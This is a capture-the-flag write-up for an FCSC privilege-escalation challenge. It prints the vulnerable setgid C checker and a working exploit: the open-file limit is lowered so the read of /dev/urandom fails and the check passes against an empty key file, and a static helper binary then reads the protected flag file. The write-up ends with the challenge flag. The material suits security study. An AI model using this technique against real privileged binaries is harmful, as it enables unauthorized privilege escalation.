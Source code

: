 ## Privesc Me (2) - "ALED" - Your randomness checker
We have the following code :
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#define BUF_SIZE 128

int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);

        fd = open("/dev/urandom", O_RDONLY, 0400);
    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
This script compare our input file with data in `/dev/urandom`. However `/dev/urandom` is close after the comparaison, so we can limit the number of file descriptor open in order to have null bytes in `randomness`. A similar technic as been use at [insomnihack](https://blog.scrt.ch/2015/03/24/insomnihack-finals-smtpwn-writeup/).

We set `RLIMIT_NOFILE` to 4 (soft limit), this limit correspond to the maximum number of file that the process can open. We set the hard limit as default value to 1048576.
```bash
touch /tmp/test
python3 -c "from resource import *; import os; setrlimit(RLIMIT_NOFILE, (4, 1048576,)); os.execve('/home/challenger/stage1/stage1', ['/home/challenger/stage1/stage1','/tmp/test', '/bin/bash'], {})"
```
We actually get `Ok, well done`, however executing commands doesn't works, we obtain the following error `/bin/bash: error while loading shared libraries: libtinfo.so.6: cannot open shared object file: Error 24`. This error means that we have too many files open.

By looking at build.sh we can see the `-static` options. This options means that all libraries are loaded inside the executable.
```bash
gcc stage1.c -static -o stage1
```

So we can build a static binary that change the maximum limit of open files and read the file.
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/resource.h>

int main(void) {
	//https://www.geeksforgeeks.org/get-set-process-resource-limits-in-c/
    struct rlimit lim;

    lim.rlim_cur = 1024;
    lim.rlim_max = 1048576;

    setrlimit(RLIMIT_NOFILE, &lim);
	
    //https://solarianprogrammer.com/2019/04/03/c-programming-read-file-lines-fgets-getline-implement-portable-getline/
	FILE *fp = fopen("/home/challenger/stage1/flag.txt", "r");
    if(fp == NULL) {
        perror("Unable to open file!");
        exit(1);
    }

    char chunk[128];

    while(fgets(chunk, sizeof(chunk), fp) != NULL) {
        fputs(chunk, stdout);
    }

    fclose(fp);
}
```

```bash
touch /tmp/test
mkdir /tmp/stage1 && cd /tmp/stage1
gcc exploit.c -static -o exploit # gcc add executable right to the binary
python3 -c "from resource import *; import os; setrlimit(RLIMIT_NOFILE, (4, 1048576,)); os.execve('/home/challenger/stage1/stage1', ['/home/challenger/stage1/stage1','/tmp/test', '/tmp/stage1/exploit'], {})"
```


Flag : `FCSC{6bd1152e8dcefc368b08a3e82241bc83ea7a613a3322c6a2d818d408e1fb4d60}`
